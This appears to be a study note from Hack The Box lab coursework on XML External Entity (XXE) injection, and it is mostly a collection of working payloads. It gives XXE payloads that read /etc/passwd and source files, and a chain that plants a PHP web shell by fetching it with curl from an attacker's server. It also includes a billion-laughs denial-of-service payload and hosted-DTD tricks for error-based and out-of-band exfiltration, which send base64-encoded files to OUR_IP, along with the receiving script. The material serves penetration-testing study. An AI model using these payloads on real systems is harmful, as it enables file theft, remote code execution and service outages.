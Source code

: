 # 

```
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

## Reading Sensitive Files
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

## XXE TO RCE

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```
powen@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
powen@htb[/htb]$ sudo python3 -m http.server 80
```

```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
> We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.

> The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.


## XXE DOS
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
This payload defines the a0 entity as DOS, references it in a1 multiple times, references a1 in a2,  
and so on until the back-end server's memory runs out due to the self-reference loops. However, this attack no longer works with modern web servers (e.g., Apache),  
as they protect against entity self-reference

### HTB practice
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php"> ]>
<root>
<name>nn</name>
<tel></tel>
<email>&company;</email>
<message>n</message>
</root>
```


## Advanced Exfiltration with CDATA

```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the &joined; entity, it should contain our escaped data. However, this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the submitDetails.php file by first storing the above line in a DTD file (e.g. xxe.dtd), host it on our machine, and then reference it as an external entity on the target web application, as follows:

```
powen@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
powen@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (xxe.dtd) and then print the &joined; entity we defined above, which should contain the content of the submitDetails.php file, as follows:

```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

## Error Based XXE

First, we will host a DTD file that contains the following payload:

```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Now, we can call our external DTD script, and then reference the error entity, as follows:

```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

> However, this method is not as reliable as the previous method for reading source files, as it may have length limitations, and certain special characters may still break it.



# Blind Data Exfiltration

## Out-of-band Data Exfiltration

we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the file parameter value as part of the URL being requested over HTTP, as follows:
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```


```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
```
powen@htb[/htb]$ vi index.php # here we write the above PHP code
powen@htb[/htb]$ php -S 0.0.0.0:8000
```

Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add <root>&content;</root>, which is needed to reference our entity and have it send the request to our machine with the file content:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

> In addition to storing our base64 encoded data as a parameter to our URL, we may utilize DNS OOB Exfiltration by placing the encoded data as a sub-domain for our URL (e.g. ENCODEDTEXT.our.website.com), and then use a tool like tcpdump to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.


## Automated OOB Exfiltration

### XXEinjector
https://github.com/enjoiz/XXEinjector

---

> Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool. If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.


> In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.
